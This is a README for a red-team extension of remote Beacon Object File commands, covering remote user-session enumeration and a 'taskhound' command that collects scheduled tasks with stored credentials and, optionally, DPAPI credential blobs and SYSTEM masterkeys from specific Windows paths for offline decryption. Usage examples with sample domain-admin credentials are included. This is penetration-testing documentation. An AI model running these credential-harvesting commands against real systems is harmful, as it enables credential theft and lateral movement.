 # SAR-BOF

This extension enhances situational awareness by providing a set of remote Beacon Object File (BOF) commands. These commands allow the operator to gather detailed information about the target.

![](_img/01.png)


## quser

Query user sessions on a remote machine, providing session information.

```
quser [host]
```


## taskhound

Collect scheduled tasks from remote systems, with options to filter for domain accounts with stored credentials and save XML task definitions for offline analysis. Can also collect DPAPI credential blobs and masterkeys for offline decryption.

```
taskhound <target> [username] [password] [-save <directory>] [-unsaved-creds] [-grab-blobs]
```

**Parameters:**
- `target` (required): Remote system to collect from (IP or hostname)
- `username` (optional): Username for authentication
- `password` (optional): Password for authentication
- `-save <directory>` (optional): Directory to save XML task files locally
- `-unsaved-creds` (optional): Show tasks without stored credentials (interactive token only)
- `-grab-blobs` (optional): Also collect credential blobs and masterkeys (requires `-save` flag)

**Examples:**
```
# Basic usage with current user context
taskhound 192.168.1.100

# Using explicit credentials
taskhound DC01 -u domain\admin -p P@ssw0rd

# Save XML files locally for offline analysis
taskhound 192.168.1.100 -save C:\TaskOutput

# Show all domain tasks including those without stored credentials
taskhound 192.168.1.100 -unsaved-creds

# Combined: save files and show all tasks
taskhound DC01 -u domain\admin -p P@ssw0rd -save C:\Output -unsaved-creds

# Collect tasks + credential blobs and masterkeys for offline decryption
taskhound 192.168.1.100 -save C:\TaskOutput -grab-blobs

# Full collection with credentials
taskhound DC01 -u domain\admin -p P@ssw0rd -save C:\Output -grab-blobs
```

**DPAPI Collection:**

When the `-grab-blobs` flag is used along with `-save`, TaskHound will additionally collect:
- **Credential Blobs**: `C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\*`
- **SYSTEM Masterkeys**: `C:\Windows\System32\Microsoft\Protect\S-1-5-18\User\*`

These files are saved to:
- `<save_dir>\<hostname>\credentials\*` (credential blobs)
- `<save_dir>\<hostname>\masterkeys\*` (masterkeys)

The collected DPAPI files can be used with offline decryption tools to extract stored credentials from scheduled tasks.

## Credits
* Quser-BOF - https://github.com/netero1010/Quser-BOF
* TaskHound - https://github.com/1r0BIT/TaskHound